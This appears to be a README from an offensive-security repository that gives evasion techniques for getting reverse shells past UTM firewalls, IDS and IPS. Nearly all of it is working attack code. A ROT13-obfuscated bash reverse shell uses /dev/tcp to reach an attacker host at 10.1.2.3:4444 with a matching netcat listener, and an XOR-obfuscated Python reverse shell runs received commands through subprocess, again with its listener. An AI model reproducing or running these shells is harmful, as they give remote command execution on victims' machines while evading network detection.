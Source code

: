 # evasion
Techniques for evading firewalls and anti-malware detection.

Acronyms used:
* UTM - Unified Threat Management.  A class of nextgen firewalls with integrated security features.
* IDS - Intrusion Detection System.  A device that detects malicious network traffic.
* IPS - Intrusion Prevention System.  A device that detects and blocks malicious network traffic.

## ROT13 encoded reverse shell using bash TCP device

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ linux command ]<br />
`IFS=''; (while read -r lin; do echo $lin | tr 'A-Za-z' 'N-ZA-Mn-za-m'; done) | nc -nlvp 4444 | tr 'A-Za-z' 'N-ZA-Mn-za-m'`<br />

( victim )<br />
[ linux command ]<br />
`exec 5<>/dev/tcp/10.1.2.3/4444; /bin/bash 2>&1 <(while read -r lin; do echo $(echo $lin | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m'); done <&5) | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m' >&5; exec 5<&-`<br />

## XOR obfuscated reverse shell using python

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ python script ]<br />
```python
import socket
s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 4444))
s.listen(2)
print "Listening... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
while True:
  command = raw_input('~$ ')
  encode = bytearray(command)
  for i in range(len(encode)):
    encode[i] ^=0x5A
  client.send(encode)
  en_data=client.recv(2048)
  decode = bytearray(en_data)
  for i in range(len(decode)):
    decode[i] ^=0x5A
  print decode
client.close()
s.close()
```

( victim )<br />
[ python script ]<br />
`#!/usr/bin/python`<br />
`import socket,subprocess,sys`<br />
`RHOST = "10.1.2.3"`<br />
`RPORT = 4444`<br />
`s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`<br />
`s.connect((RHOST, RPORT))`<br />
`while True:`<br />
`  data = s.recv(1024)`<br />
`  en_data = bytearray(data)`<br />
`  for i in range(len(en_data)):`<br />
`    en_data[i] ^=0x5A`<br />
`  comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)`<br />
`  STDOUT, STDERR = comm.communicate()`<br />
`  en_STDOUT = bytearray(STDOUT)`<br />
`  for i in range(len(en_STDOUT)):`<br />
`    en_STDOUT[i] ^=0x5A`<br />
`  s.send(en_STDOUT)`<br />
`s.close()`<br />
